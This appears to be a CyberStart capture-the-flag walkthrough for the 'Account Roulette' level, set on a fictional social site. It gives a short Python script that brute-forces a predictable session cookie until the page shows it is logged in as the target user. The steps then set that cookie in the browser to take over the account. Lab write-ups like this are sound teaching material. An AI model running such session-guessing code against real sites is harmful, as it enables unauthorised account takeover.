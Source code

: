 # Account Roulette
Agent 707, remember the social media website from the previous level where Bulldog gang member Darren Greggs posted that cryptic message? If we could log in as Darren we could post messages as him and confuse other gang members. Unfortunately we don't have his login details, but we're sure you can find another way to log in as him using a possible vulnerability we think exists.

We have logged in as a random test user that we created and have gone to an old message Darren posted. See if you can use that access to log in to other accounts, then check the response to see who you are logged in as, aiming to find access Darren's account (his username is thedazman).

**Tip:** Understand what identifies the users logged in state to start.

## Steps
1. Write Python code

```python
import requests, re

url = "https://wespeektogether.com/thedazman/status/74635478354"

cookie_value = 0
while True:
    request = requests.get(url, cookies = {"speek_sess_id": str(cookie_value)})
    match = re.search("Logged in as thedazman", request.text)

    if match:
        print(cookie_value)
        break

    cookie_value += 1
```

![python to cookie login](/assets/screenshots/hq-12-AccountRoulette/step-1.png)

2. Copy the number in the output and go into *Cookies* using *Inspect*
    - Inspect > Application > Cookies > https://play.cyberstart.com

![application location](/assets/screenshots/hq-12-AccountRoulette/step-2.png)

3. Replace *speek_sess_id* cookie value with the copied number

![replace speek_sess_id](/assets/screenshots/hq-12-AccountRoulette/step-3.png)

4. Refresh the page